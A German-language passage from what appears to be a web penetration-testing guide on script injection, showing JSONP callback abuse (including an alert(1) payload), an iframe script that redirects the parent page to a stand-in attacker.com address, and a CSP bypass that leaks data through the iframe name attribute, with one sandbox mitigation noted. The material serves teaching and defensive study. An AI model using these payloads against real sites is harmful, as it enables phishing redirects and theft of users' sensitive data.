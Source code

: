 Wenn Sie eine JSONP-Schnittstelle finden, könnten Sie in der Lage sein, eine beliebige Funktion mit beliebigen Daten aufzurufen:
```html
<script src='/editor/sharing.js'>:              ← Legitimate script
function set_sharing(public) {
if (public) request.access_mode = AM_PUBLIC;
else request.access_mode = AM_PRIVATE;
...
}

<script src='/search?q=a&call=set_sharing'>:    ← Injected JSONP call
set_sharing({ ... })
```
Oder Sie können sogar versuchen, etwas JavaScript auszuführen:
```html
<script src="/search?q=a&call=alert(1)"></script>
```
### Iframe-Missbrauch

Ein untergeordnetes Dokument hat die Fähigkeit, die `location`-Eigenschaft seines übergeordneten Dokuments anzuzeigen und zu ändern, selbst in Cross-Origin-Situationen. Dies ermöglicht das Einbetten eines Skripts in ein **iframe**, das den Client auf eine beliebige Seite umleiten kann:
```html
<html>
<head></head>
<body>
<script>
top.window.location = "https://attacker.com/hacked.html"
</script>
</body>
</html>
```
Dies kann mit etwas wie: `sandbox=' allow-scripts allow-top-navigation'` gemildert werden.

Ein iframe kann auch missbraucht werden, um sensible Informationen von einer anderen Seite **unter Verwendung des iframe name Attributs** zu leaken. Dies liegt daran, dass Sie ein iframe erstellen können, das sich selbst in ein iframe einfügt und die HTML-Injection ausnutzt, die **sensible Informationen im iframe name Attribut erscheinen lässt** und dann diesen Namen vom ursprünglichen iframe aus abrufen und leaken kann.
```html
<script>
function cspBypass(win) {
win[0].location = "about:blank"
setTimeout(() => alert(win[0].name), 500)
}
</script>

<iframe
src="//subdomain1.portswigger-labs.net/bypassing-csp-with-dangling-iframes/target.php?email=%22><iframe name=%27"
onload="cspBypass(this.contentWindow)"></iframe>
```
Für weitere Informationen siehe [https://portswigger.net/research/bypassing-csp-with-dangling-iframes](https://portswigger.net/research/bypassing-csp-with-dangling-iframes)
